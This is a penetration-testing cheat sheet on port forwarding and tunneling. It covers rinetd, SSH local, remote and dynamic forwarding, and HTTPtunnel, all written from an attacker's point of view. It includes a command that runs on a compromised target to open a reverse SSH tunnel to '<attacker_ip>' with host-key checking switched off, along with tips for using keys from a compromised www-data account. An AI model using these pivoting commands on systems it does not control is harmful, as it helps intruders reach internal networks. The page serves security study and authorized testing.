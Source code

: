 # Port Forwarding & Tunneling

## Port Forwarding

{% hint style="info" %}
Not forget to configure `network.proxy.allow_hijacking_localhost` to true within Firefox (about:config) to access on localhost a website relayed through port forwarding.
{% endhint %}

### Rinetd

```
$ cat /etc/rinetd.conf
# bindadress bindport connectaddress connectport
0.0.0.0 80 <dest_ip> 80
```

### SSH

#### Local Port Forwarding

Setup from attacker:

```
ssh -N -L [bind_address:]port:target_host:target_host_port [username@relay_host]
```

#### Remote Port Forwarding

Setup from target:

```
ssh -N -R [bind_address:]port:attacker_host:attacker_host_port [username@relay_host]
```

Setup from relay:

```
ssh -N -R [bind_address:]port:target_host:target_host_port [username@attacker_host]
```

{% hint style="info" %}
Add the following to automatically accept the host key:

`-o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no"`
{% endhint %}

{% hint style="info" %}
To avoid entering a SSH password into a compromised host, use SSH keys:

`mkdir /tmp/keys`

`ssh-keygen`

And copy the public key into attacker host's authorized keys (`~/.ssh/authorized_keys`):

`from="<target`_`ip>",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa <public_key>`_` ``www-data@target`
{% endhint %}

```
ssh -f -N -R <forwarding_rule> -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa user@<attacker_ip>
```

#### Dynamic Port Forwarding

Setup from attacker: (basically setting up a proxy)

```
ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address>
```

## Tunneling

### HTTPtunnel

Source: [http://http-tunnel.sourceforge.net/](http://http-tunnel.sourceforge.net)

Alternative: [https://www.stunnel.org/](https://www.stunnel.org)

```
# Server
hts --forward-port host:port [listen_addr:]listen_port

# Client
htc --forward-port [listen_addr]:listen_port server_addr:server_port
```
